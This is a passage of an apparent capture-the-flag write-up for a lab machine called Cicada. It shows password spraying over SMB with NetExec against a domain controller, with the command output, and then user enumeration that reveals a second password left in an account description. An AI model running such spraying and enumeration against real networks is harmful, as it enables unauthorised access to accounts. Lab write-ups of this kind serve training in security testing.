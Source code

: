 ## Password spraying 

I sprayed the discovered password against the user list:

```bash
nxc smb 10.129.231.149 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```

Credential found: `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`.

Logging in as Michael didn't immediately give anything interesting (shares same as Guest). So I continued enumerating users via SMB:

```bash
nxc smb 10.129.231.149 -u michael.wrightson  -p 'Cicada$M6Corpb*@Lp#nZp!8' --users                                                                     41s 10:55:35
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.149  445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.231.149  445    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.231.149  445    CICADA-DC        Administrator                 2024-08-26 20:08:03 1       Built-in account for administering the computer/domain 
SMB         10.129.231.149  445    CICADA-DC        Guest                         2024-08-28 17:26:56 1       Built-in account for guest access to the computer/domain 
SMB         10.129.231.149  445    CICADA-DC        krbtgt                        2024-03-14 11:14:10 1       Key Distribution Center Service Account 
SMB         10.129.231.149  445    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 1        
SMB         10.129.231.149  445    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 1        
SMB         10.129.231.149  445    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0        
SMB         10.129.231.149  445    CICADA-DC        david.orelious                2024-03-14 12:17:29 0       Just in case I forget my password is aRt$Lp#7t*VQ!3 
SMB         10.129.231.149  445    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 0
```
